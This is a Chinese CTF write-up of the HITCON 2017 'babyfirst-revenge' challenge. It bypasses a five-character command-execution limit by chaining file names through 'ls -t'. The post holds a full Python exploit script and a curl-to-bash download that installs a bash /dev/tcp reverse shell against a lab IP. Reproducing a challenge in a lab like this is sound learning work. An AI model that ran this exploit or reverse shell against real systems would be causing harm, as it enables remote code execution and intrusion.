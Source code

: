 hitcon的题好难啊！！！！！
还是太菜了。。Orz
只能够赛后搭环境复现了。。
分享自制Dockerfile：[Github](https://github.com/Pr0phet/hitcon2017Dockerfile/tree/master/hitcon-ctf-2017/babyfirst-revenge) 

这题是一个特别的命令执行题， 首先进去首页之后发现以下源码
```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

-----


无论我们传什么进去他都会照单执行，但是每次的长度限制为最多5个字符，正常来说最短(?)的写shell方式应该是
```bash
echo x>>1
....
sh 1
```
但是其实我们可以利用ls来写shell，如下：
```bash
>a
ls>_
sh _  #也就执行了a指令 但是没有意义，所以我们就要构造一系列的指令出来追加到文件里
```
那么这里就涉及到几个问题：
1. ls出来是按照什么顺序排列的文件？
2. 追加文件的时候会自动加入换行 这个问题要怎么解决？
3. 如果ls途中有无用的文件怎么办？ 因为如果是以上的做法的话其实```cat _```你会发现里面还有一个```_```文件

>答案：
>1. ls -l的默认排序方式手册上写了是alphabetically（字典序）也就是说有可能后面加入的文件名排在前面，为了避免这个问题我们可以加入-t参数来使ls之后的结果按照最近修改的文件在前面的方式排列
>2. linux的命令执行中支持命令换行 需要用到反斜杠\ 写到最后面，如：![🌰](http://upload-images.jianshu.io/upload_images/6949366-4ac892737cccb5a3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
>3. 其实bash在执行脚本的时候遇到未知的命令会报错 但是这并不会使之退出，bash会继续执行下一行的命令，如图![🌰](http://upload-images.jianshu.io/upload_images/6949366-23d54fedc4febff3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

那到这里思路其实已经挺清晰的了, 就是通过写入一系列指令的分段，并用反斜杠\作为文件结尾，最后执行ls -t>g并且sh g来执行我们想要的指令，这里以执行反弹shell为例：

```bash
curl 10.188.2.20|bash
```
我的10.188.2.20/index.html文件内容为:
```bash
bash -i >& /dev/tcp/10.188.2.20/12345 0>&1
```

- 写入 ls -t>g指令到_文件
```bash
?cmd=>ls\\    #创建ls\
?cmd=ls>_    #创建 _ 文件 文件内容为_ \n ls\ \n
?cmd=>\ \\    #创建 \空格 文件
?cmd=>-t\\    #创建 -t\ 文件
?cmd=>\>g    #创建 >g 文件
?cmd=ls>>_   #将刚刚创建的文件名按照字典序写入_文件 这里的字典序是特殊符号在ls\的前面 所以在生成ls\之后我们要先ls>_ 保证ls\在最前面
```

最后生成的_文件结果如图：
![_ 文件](http://upload-images.jianshu.io/upload_images/6949366-621edcef6a1461e1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

最后我们需要生成我们自己的命令的时候直接sh _就可以在g文件里面生成我们想要的命令了 然后再sh g就可以rce了

比如我要执行 curl 10.188.2.20|bash (index.html已经提前放好反弹shell的命令)

因为这是按照时间倒叙ls 所以我要倒着生成我要执行的指令文件，比如orange大大的exp：

```python
import requests
from time import sleep
from urllib import quote

payload = [
    # generate `ls -t>g` file
    '>ls\\', 
    'ls>_', 
    '>\ \\', 
    '>-t\\', 
    '>\>g', 
    'ls>>_', 

    # generate `curl orange.tw.tw|python`
    # generate `curl 10.188.2.20|bash` 
    '>sh\ ', 
    '>ba\\', 
    '>\|\\',
    '>20\\',
    '>2.\\', 
    '>8.\\',
    '>18\\', 
    '>0.\\', 
    '>1\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 

    # exec
    'sh _', 
    'sh g', 
]



r = requests.get('http://10.188.2.20:22460/?reset=1')
for i in payload:
    assert len(i) <= 5 
    r = requests.get('http://10.188.2.20:22460/?cmd=' + quote(i) )
    print i
    sleep(0.2)
```
在生成自己的命令时要注意各个命令段之间名字不能相同 因为不能生成两个带有相同命令段的文件名


//偷懒偷了好久才复现的。。Orz。。。。批评一下自己的懒惰。。
各位大佬有啥更好的思路欢迎分享
